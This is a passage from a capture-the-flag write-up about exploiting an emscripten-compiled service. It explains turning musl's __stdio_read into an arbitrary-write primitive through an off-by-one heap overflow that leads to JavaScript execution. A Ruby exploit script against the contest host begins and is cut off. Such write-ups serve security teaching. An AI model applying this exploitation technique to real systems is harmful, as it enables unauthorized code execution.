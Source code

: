 * 1: `filter_lower`
* 2: `filter_upper`
* 3: `filter_swapcase`
* 5: `__stdio_read`
* 6: `__stdio_seek`
* 7: `__stdout_write`
* 8: `__stdio_write`

Hmm, `__stdio_read` looks interesting...  
Let's check [its implementation](https://github.com/kripken/emscripten/blob/3c4bc8e8ecb696e5a928bf96c59ff1a8256a9611/system/lib/libc/musl/src/stdio/__stdio_read.c):
```c
#include "stdio_impl.h"
#include <sys/uio.h>

size_t __stdio_read(FILE *f, unsigned char *buf, size_t len)
{
    struct iovec iov[2] = {
        { .iov_base = buf, .iov_len = len - !!f->buf_size },
        { .iov_base = f->buf, .iov_len = f->buf_size }
    };
    ssize_t cnt;

    cnt = syscall(SYS_readv, f->fd, iov, 2);
    if (cnt <= 0) {
        f->flags |= F_EOF ^ ((F_ERR^F_EOF) & cnt);
        return cnt;
    }
    if (cnt <= iov[0].iov_len) return cnt;
    cnt -= iov[0].iov_len;
    f->rpos = f->buf;
    f->rend = f->buf + cnt;
    if (f->buf_size) buf[len-1] = *f->rpos++;
    return len;
}
```
Since we directly control the second and the third argument, we can use this function as an arbitrary-write primitive.

### Exploit!

We can exploit this service in 4 steps:

1. Exploit the off-by-one buffer overflow bug and make chunks overlapping.
2. Overwrite existing letter:
    * `length`: `len("some Javascript code") + 1` (we need a null byte)
    * `filter`: 5 (`__stdio_read`)
    * `buf`: 0xff8 (address of `"_do_post_letters()"` string)
3. Call `__stdio_read` by sealing letters, and input some Javascript code.
4. Our code will be executed via `emscripten_run_script`.

Here is my exploit:
```ruby
#coding:ascii-8bit
require "pwnlib"  # https://github.com/Charo-IT/pwnlib

remote = ARGV[0] == "r"
if remote
  host = "pwn1.task.ctf.codeblue.jp"
  port = 31337
else
  host = "localhost"
  port = 54321
end

class PwnTube
```